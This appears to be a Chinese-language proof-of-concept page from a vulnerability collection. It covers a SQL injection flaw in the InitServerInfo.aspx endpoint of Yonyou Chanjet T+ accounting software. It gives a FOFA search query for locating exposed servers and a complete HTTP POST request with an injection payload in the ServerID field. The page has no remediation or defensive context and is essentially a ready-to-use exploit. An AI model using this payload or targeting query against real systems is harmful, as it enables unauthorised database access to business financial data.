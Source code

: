 ## 用友畅捷通TPlus-InitServerInfo存在SQL注入漏洞

## fofa
```
app="畅捷通-TPlus"
```

## poc
```
POST /tplus/UFAQD/InitServerInfo.aspx?preload=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 113

operbtn=create&ServerID=1'%2b(select 1 where 1 in (SELECT sys.fn_varbintohexstr(hashbytes('MD5','123456'))))%2b'1
```
![c2758ffb9af884d3e9246f48e1c4191a](../../images/520a3274-ce88-43b9-89a7-fc20505017bb.png)
